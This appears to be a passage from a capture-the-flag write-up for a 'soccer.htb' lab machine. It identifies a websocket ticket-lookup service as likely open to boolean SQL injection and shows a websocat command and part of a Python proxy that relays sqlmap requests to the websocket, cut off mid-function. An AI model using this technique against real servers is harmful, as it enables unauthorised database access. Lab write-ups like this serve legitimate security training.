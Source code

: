 ```javascript
    }
}

ws.onmessage = function (e) {
    append(e.data)
}

function append(msg) {
    let p = document.querySelector("p");
    // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
    // p.style.color = randomColor;
    p.textContent = msg
}
```

As we can see, the information about tickets is retrieved using web sockets.
Client sends request in form:

```
{"id": 12345}
```

While server replies with:

```
Ticket Exists
```

or 

```
Ticket Doesn't Exist
```

This is a foundation for suspecting boolean SQLi.
Inputing some combinations using websocat didnt yield anything promising.

```
websocat ws://soc-player.soccer.htb:9091
```

We can try to exploit it using sqlmap and proxy script
(for translating http requests sqlmap uses to
messages understood by this particular ws server).

Script was already made by Rayhan, it works well with minimal modification:

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def main():
    try:
        middleware_server(('0.0.0.0',8081))
    except KeyboardInterrupt:
        pass

def middleware_server(host, content_type="text/plain"):
    class CustomHandler(SimpleHTTPRequestHandler):
        def do_GET(self) -> None:
            self.send_response(200)
            try:
                payload = urlparse(self.path).query.split('=', 1)[1]
            except IndexError:
                payload = False

```